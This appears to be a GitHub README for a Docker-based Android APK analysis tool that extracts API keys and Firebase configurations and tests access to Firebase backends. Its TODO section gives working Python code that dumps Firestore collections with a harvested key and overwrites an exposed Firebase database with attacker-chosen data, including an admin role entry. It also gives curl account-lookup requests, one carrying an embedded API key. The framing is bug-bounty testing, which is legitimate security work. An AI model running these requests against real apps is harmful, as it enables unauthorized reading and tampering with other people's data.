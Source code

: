 # APK Playbook

A Docker-based tool for analyzing Android APK files and extracting sensitive information such as API keys, Firebase configurations, and other security-related data.

## Setup

1. Place your APK file in the `/app` directory
2. Build the Docker image:
   ```bash
   docker build -t apk_playbook .
   ```
3. Run the container:
   ```bash
   docker run -it apk_playbook
   ```
4. If you want to try to gain access to the firebase app, when in the shell, run `python3 /tools/Firebase_Checker/firebase-checker.py`.
   It will prompt for the APK file location, use /app/Android.apk (or whatever you called it). The email address is whatever you want to authenticate with.

## What it does

This tool will automatically:
- Decompile the APK file
- Extract GCP API keys, Firebase configurations, and other sensitive data
- Check Firebase Remote Config accessibility
- Generate detailed logs and reports

## Output

All extracted data and logs will be available in the `/app` directory within the container.

# TODO
Add firebase project dump
```python
import requests
api_key = 'AI**********************************zP8'
project_id = 'FIRESTORE_DB-PROJECT_NAME'
collection = 'COLLECTION_NAME'
url = f'https://firestore.googleapis.com/v1/projects/{project_id}/databases/(default)/documents/{collection}?key={api_key}'


response = requests.get(url)

if response.status_code == 200:
    print("Collection dump:", response.json())
else:
    print(f"Failed to retrieve data: {response.status_code} - {response.text}")
```

Add firebase .json overwrite
```python
import requests

## THIS IS AN EXAMPLE OF JSON DATA TO UPLOAD TO THE DATABASE. CHANGE AS YOU SEE FIT
data = {"Mexploit": "BugBountyHunter", "Email": "<EMAIL>", "Role": "Admin", "Message" : "this is a PoC for your misconfigured firebase instance. A misconfigured instance could allow attackers to read, write, and manage a firebase db for their own nefarious actions. Please secure this immediately."}

## HERE YOU WILL ENTER THE URL OF THE EXPOSED DB WITH THE ./json APPENDED
response = requests.put('<URL OF EXPOSED FIREBASEDB>',json=data)

## IF SUCCESSFUL YOU WILL GET A MESSAGE TO TERMINAL
print("Executed the PoC Successfully")
```

Add firebase request token

```bash
curl '<https://identitytoolkit.googleapis.com/v1/accounts:lookup?key=[API_KEY]>' -H 'Content-Type: application/json' --data-binary '{"idToken":"[GCIP_ID_TOKEN]"}'

curl --location '<https://www.googleapis.com/identitytoolkit/v3/relyingparty/getAccountInfo?key=AIzaSyCzkZ2BvpMv6FV5PsS9up3lj620_v-ZebI>' \\
--header 'Content-Type: application/json' \\
--data '{"idToken":"<ID_TOKEN>"}'
```
https://medium.com/@DEVEN99/exploring-firebase-authentication-unveiling-nuances-in-apikey-interactions-across-key-9cb225a6fbb4